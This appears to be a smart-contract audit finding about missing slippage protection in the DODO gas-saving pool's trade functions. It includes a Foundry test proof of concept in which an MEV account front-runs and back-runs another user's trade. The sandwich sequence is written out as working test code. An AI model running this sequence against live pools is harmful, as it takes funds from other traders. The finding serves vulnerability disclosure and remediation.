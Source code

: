 Generous Onyx Walrus

high

# Loss of funds during trades due to lack of slippage checks

## Summary
The price of a trade transaction depends on the amount of tokens being sold and the current state of the pool. Each trade changes the state of the pool. Thus, if the state of the pool is changed before a user transaction, then user may receive a significantly lower amount than expected.

## Vulnerability Detail
The amount of tokens a user receives is computed based on the Proportional Market Makers (PMM) formula, where `k` represents the "slippage factor". The closer `k` is to 1, the more potently each transaction impacts the current price.

```diff
diff --git a/dodo-gassaving-pool/test/GPSTrader.t.sol b/dodo-gassaving-pool/test/GPSTrader.t.sol
index 684b28d..e31d746 100644
--- a/dodo-gassaving-pool/test/GPSTrader.t.sol
+++ b/dodo-gassaving-pool/test/GPSTrader.t.sol
@@ -17,6 +17,7 @@ contract TestGSPTrader is Test {
     // Test Params
     address USER = vm.addr(1);
     address OTHER = vm.addr(2);
+    address MEV = vm.addr(3);
     address constant USDC_WHALE = 0x51eDF02152EBfb338e03E30d65C15fBf06cc9ECC;
     address constant DAI_WHALE = 0x25B313158Ce11080524DcA0fD01141EeD5f94b81;
     address constant USDC = 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48;
@@ -42,6 +43,52 @@ contract TestGSPTrader is Test {
         mockQuoteToken.mint(USER, type(uint256).max);
     }

+    function test_sandwichAttack() public {
+        // transfer some tokens to USER
+        vm.startPrank(DAI_WHALE);
+        dai.transfer(USER, BASE_RESERVE);
+        dai.transfer(OTHER, BASE_INPUT);
+        dai.transfer(MEV, BASE_RESERVE);
+        vm.stopPrank();
+        vm.startPrank(USDC_WHALE);
+        usdc.transfer(USER, QUOTE_RESERVE);
+        vm.stopPrank();
+
+        // User buys shares
+        vm.startPrank(USER);
+        dai.transfer(address(gsp), BASE_RESERVE);
+        usdc.transfer(address(gsp), QUOTE_RESERVE);
+        gsp.buyShares(USER);
+        vm.stopPrank();
+
+        // Other user wants to sell base
+        (uint256 expectedQuoteAmount,,,) = gsp.querySellBase(OTHER, BASE_INPUT); // 0.999935 USDC
+
+        // MEV bot front-run the transaction
+        uint256 mevBotDaiBalanceBefore = dai.balanceOf(MEV);
+        vm.startPrank(MEV);
+        dai.transfer(address(gsp), BASE_RESERVE);
+        gsp.sellBase(MEV);
+        vm.stopPrank();
+
+        // Other's transaction executed
+        vm.startPrank(OTHER);
+        dai.transfer(address(gsp), BASE_INPUT);
+        uint256 receiveQuoteAmount = gsp.sellBase(OTHER);
+        vm.stopPrank();
+
+        // MEV bot sells quote
+        vm.startPrank(MEV);
+        usdc.transfer(address(gsp), usdc.balanceOf(MEV));
+        gsp.sellQuote(MEV);
+        vm.stopPrank();
+
+        uint256 mevBotDaiBalanceAfter = dai.balanceOf(MEV);
+
+        assert(receiveQuoteAmount < expectedQuoteAmount);
+        assert(mevBotDaiBalanceBefore < mevBotDaiBalanceAfter);
+    }
+
     function test_updateTargetOverflow() public {
         GSP gspTest = new GSP();
         gspTest.init(
```

## Impact
This vulnerability could potentially lead to financial losses for users who receive a significantly lower amount than expected. Furthermore, it opens up possibilities for sandwich attacks.

## Code Snippet
https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/main/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPTrader.sol#L40-L72
https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/main/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPTrader.sol#L79-L113

## Tool used

Manual Review

## Recommendation
Add slippage protection.